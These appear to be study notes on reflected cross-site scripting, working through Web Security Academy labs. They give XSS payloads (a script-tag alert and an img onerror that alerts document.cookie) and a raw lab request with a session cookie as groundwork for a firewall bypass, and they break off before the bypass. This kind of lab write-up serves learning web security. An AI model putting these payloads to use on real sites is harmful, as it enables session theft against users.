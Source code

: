 ####  What is reflected cross-site scripting?
Reflected XXS arises when an application recieves data in an HTTP request and includes that data within the immediate repsonse   
in an unsafe way.  

Suppose a website has a search fucntion which recieved the user suppiled search term in a url parameter 
````https://insecure-website.com/search?term=gift````

The application echoes the supplied search term in the response to this URL 
><p>You searched for: gift</p>

Assuming the application doesn't perform any other processing of the data, attackers can construct an attack like this. 
````https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>````

***
#### Lab: Reflected XSS into HTML context with nothing encoded
This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the blog post is viewed.
````web-security-academy.net/?search=<script>alert(1)</script>````

***
#### Lab: Reflected XSS into HTML context with most tags and attributes blocked
This lab contains a reflected cross-site scripting vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors. To solve the lab, perform a cross-site scripting attack that bypasses the WAF and alerts document.cookie. 

Observe this payload get blocked 
````Inject a standard XSS payload such as: <img src=1 onerror=alert(document.cookie)>````

Get request to trouble shoot to see which tags are blocked 

```GET /?search=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E HTTP/1.1
Host: ac5f1f4e1edda1b5810d0d0f00e60028.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac5f1f4e1edda1b5810d0d0f00e60028.web-security-academy.net/
Cookie: session=FkSFLXR0PyX1JqWdIIMiUQmt4O97Yg6M
Connection: close
Upgrade-Insecure-Requests: 1````



